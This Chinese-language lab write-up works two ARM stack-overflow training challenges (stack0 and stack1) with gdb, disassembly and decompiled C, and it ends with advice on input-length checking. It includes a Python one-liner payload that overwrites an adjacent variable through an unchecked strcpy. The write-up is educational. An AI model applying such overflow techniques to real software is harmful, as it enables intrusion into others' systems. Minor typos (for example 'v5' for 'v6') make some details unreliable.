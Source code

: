 # <center>arm栈溢出实验</center>

## 实验概述

### 【目的】
1. 运行stack0，得到输出`you have changed the 'modified' variable`
2. 运行stack1，得到输出`you have correctly got the variable to the right value`
### 【环境】
Linux
### 【工具】
gdb
### 【原理】
缓冲区溢出（buffer overflow），是针对程序设计缺陷，向程序输入缓冲区写入使之溢出的内容（通常是超过缓冲区能保存的最大数据量的数据），从而破坏程序运行、趁著中断之际并获取程序乃至系统的控制权。
## 实验步骤

### 【步骤】
#### stack0
用file命令查看可执行文件类型。
```
$ file stack0
stack0: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-armhf.so.3, for GNU/Linux 2.6.32, BuildID[sha1]=1171fa6db1d5176af44d6d462427f8d244bd82c8, not stripped
```
使用gdb打开并调试
```
$ gdb stack0 -q
[*] No debugging session active
GEF for linux ready, type `gef' to start, `gef config' to configure
56 commands loaded for GDB 7.7.1 using Python engine 2.7
[*] 4 commands could not be loaded, run `gef missing` to know why.
Reading symbols from stack0...(no debugging symbols found)...done.
gef> r
Starting program: /home/pi/ARM-challenges/stack0 
123
Try again?
[Inferior 1 (process 17040) exited normally]

```
程序让我们输入一行字符串,反汇编看一下main函数
```
gef> disass main
Dump of assembler code for function main:
   0x0001044c <+0>:	push	{r11, lr}
   0x00010450 <+4>:	add	r11, sp, #4
   0x00010454 <+8>:	sub	sp, sp, #80	; 0x50
   0x00010458 <+12>:	str	r0, [r11, #-80]	; 0x50
   0x0001045c <+16>:	str	r1, [r11, #-84]	; 0x54
   0x00010460 <+20>:	mov	r3, #0
   0x00010464 <+24>:	str	r3, [r11, #-8]
   0x00010468 <+28>:	sub	r3, r11, #72	; 0x48
   0x0001046c <+32>:	mov	r0, r3
   0x00010470 <+36>:	bl	0x102e8
   0x00010474 <+40>:	ldr	r3, [r11, #-8]
   0x00010478 <+44>:	cmp	r3, #0
   0x0001047c <+48>:	beq	0x1048c <main+64>
   0x00010480 <+52>:	ldr	r0, [pc, #24]	; 0x104a0 <main+84>
   0x00010484 <+56>:	bl	0x102f4
   0x00010488 <+60>:	b	0x10494 <main+72>
   0x0001048c <+64>:	ldr	r0, [pc, #16]	; 0x104a4 <main+88>
   0x00010490 <+68>:	bl	0x102f4
   0x00010494 <+72>:	mov	r0, r3
   0x00010498 <+76>:	sub	sp, r11, #4
   0x0001049c <+80>:	pop	{r11, pc}
   0x000104a0 <+84>:	andeq	r0, r1, r12, lsl r5
   0x000104a4 <+88>:	andeq	r0, r1, r8, asr #10
End of assembler dump.
```
可以看到，这里的反汇编代码是arm架构的，与x86架构下的汇编指定不尽相同。
在main+40处有一条cmp指令，看起来像是判断的关键，在main+20处它被置为0，这里我们尝试溢出来修改到局部变量的值。
```
gef> r
Starting program: /home/pi/ARM-challenges/stack0 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Try again?
[Inferior 1 (process 17248) exited normally]

```
失败，这里再尝试用更长的字符串。
```
gef> r
Starting program: /home/pi/ARM-challenges/stack0 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
you have changed the 'modified' variable
```
成功。
#### stack1
```
$ file stack1
stack1: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-armhf.so.3, for GNU/Linux 2.6.32, BuildID[sha1]=4e3ac40ad07cec98f04bbdff5d66b69b9fc1b66d, not stripped
```
这里也是一个arm程序。
用ida pro打开
```
$ gdb stack1 -q
[*] No debugging session active
GEF for linux ready, type `gef' to start, `gef config' to configure
56 commands loaded for GDB 7.7.1 using Python engine 2.7
[*] 4 commands could not be loaded, run `gef missing` to know why.
Reading symbols from stack1...(no debugging symbols found)...done.
gef> disass main
Dump of assembler code for function main:
   0x000104b0 <+0>:	push	{r11, lr}
   0x000104b4 <+4>:	add	r11, sp, #4
   0x000104b8 <+8>:	sub	sp, sp, #80	; 0x50
   0x000104bc <+12>:	str	r0, [r11, #-80]	; 0x50
   0x000104c0 <+16>:	str	r1, [r11, #-84]	; 0x54
   0x000104c4 <+20>:	ldr	r3, [r11, #-80]	; 0x50
   0x000104c8 <+24>:	cmp	r3, #1
   0x000104cc <+28>:	bne	0x104dc <main+44>
   0x000104d0 <+32>:	mov	r0, #1
   0x000104d4 <+36>:	ldr	r1, [pc, #92]	; 0x10538 <main+136>
   0x000104d8 <+40>:	bl	0x10370
   0x000104dc <+44>:	mov	r3, #0
   0x000104e0 <+48>:	str	r3, [r11, #-8]
   0x000104e4 <+52>:	ldr	r3, [r11, #-84]	; 0x54
   0x000104e8 <+56>:	add	r3, r3, #4
   0x000104ec <+60>:	ldr	r3, [r3]
   0x000104f0 <+64>:	sub	r2, r11, #72	; 0x48
   0x000104f4 <+68>:	mov	r0, r2
   0x000104f8 <+72>:	mov	r1, r3
   0x000104fc <+76>:	bl	0x10340
   0x00010500 <+80>:	ldr	r3, [r11, #-8]
   0x00010504 <+84>:	ldr	r2, [pc, #48]	; 0x1053c <main+140>
   0x00010508 <+88>:	cmp	r3, r2
   0x0001050c <+92>:	bne	0x1051c <main+108>
   0x00010510 <+96>:	ldr	r0, [pc, #40]	; 0x10540 <main+144>
   0x00010514 <+100>:	bl	0x1034c
   0x00010518 <+104>:	b	0x1052c <main+124>
   0x0001051c <+108>:	ldr	r3, [r11, #-8]
   0x00010520 <+112>:	ldr	r0, [pc, #28]	; 0x10544 <main+148>
   0x00010524 <+116>:	mov	r1, r3
   0x00010528 <+120>:	bl	0x10334
   0x0001052c <+124>:	mov	r0, r3
   0x00010530 <+128>:	sub	sp, r11, #4
   0x00010534 <+132>:	pop	{r11, pc}
   0x00010538 <+136>:			; <UNDEFINED> instruction: 0x000105bc
   0x0001053c <+140>:	cmnvs	r2, r4, ror #6
   0x00010540 <+144>:	ldrdeq	r0, [r1], -r8
   0x00010544 <+148>:	andeq	r0, r1, r0, lsl r6
End of assembler dump.
```
在main+88处有关键的判断逻辑，这里不是很好看，切到ida pro。
```c
nt __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // r3@4
  char dest; // [sp+Ch] [bp-48h]@3
  int v6; // [sp+4Ch] [bp-8h]@3

  if ( argc == 1 )
    errx(1, "please specify an argument\n", envp);
  v6 = 0;
  strcpy(&dest, argv[1]);
  if ( v6 == 1633837924 )
    puts("you have correctly got the variable to the right value");
  else
    printf("Try again, you got 0x%08x\n", v6);
  return v3;
}
```
可以看到这里把作为参数的字符串复制到了变量&dest上：`strcpy(&dest, argv[1]);`
那么我们在运行程序时给出超过dest字符数组长度的参数即可发生溢出，这里我们需要覆盖v5等于`"abcd"`。
经过计算，有：
```
$ python -c "print 'A'*64+'\x64\x63\x62\x61'" | xargs ./stack1
you have correctly got the variable to the right value

```
这里的 xargs 表示输入数据作为参数。
### 【总结】

本次实验主要体验arm环境下栈溢出的发生场景，并尝试通过栈溢出覆盖（修改）相邻的变量，达到改变程序执行流的目的。
可以发现，要使栈溢出发生，要满足以下条件：


- 程序允许用户输入
- 程序对用户的输入长度不加检查

栈溢出攻击是最为普遍而又危害极大的漏洞，要防御栈溢出攻击，首先要有良好的编码功力，对于用户的输入数据要做严格的长度检查，避免使用危险的函数。
